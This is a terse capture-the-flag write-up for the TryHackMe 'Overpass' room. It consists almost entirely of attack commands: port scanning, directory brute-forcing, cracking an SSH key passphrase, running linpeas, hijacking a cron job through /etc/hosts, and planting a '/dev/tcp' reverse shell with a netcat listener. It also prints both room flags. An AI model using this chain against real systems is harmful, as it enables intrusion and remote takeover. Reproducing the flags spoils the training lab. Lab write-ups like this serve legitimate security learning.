

# Overpass


https://tryhackme.com/room/overpass




## Task 1 Overpass

#### Hack the machine and get the flag in user.txt

```
rustscan -a 10.10.39.208 -- -n -sVC
```


```
gobuster dir -u http://10.10.39.200/ \
             -w /usr/share/dirb/wordlists/common.txt \
             -t128
```


```bash
vim i_rsa
chmod 400 id_rsa
ssh2john id_rsa > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


```bash
ssh -i id_rsa james@10.10.39.208 
cat user.txt
```



`thm{65c1aaf000506e56996822c6281e6bf7}`


#### Escalate your privileges and get the flag in root.txt

```bash
cat /etc/crontab
```


```bash
wget http://10.6.9.176/linpeas.sh
bash linpeas.sh
```


```bash
vim /etc/hosts
```


```bash
mkdir -p /var/www/html/downloads/src/
echo -n 'sh -i >& /dev/tcp/10.6.9.176/4444 0>&1' > /var/www/html/downloads/src/buildscript.sh
```


```bash
nc -nvlp 4444
cat /root/root.txt
```


`thm{7f336f8c359dbac18d54fdd64ea753bb}`


## BTW


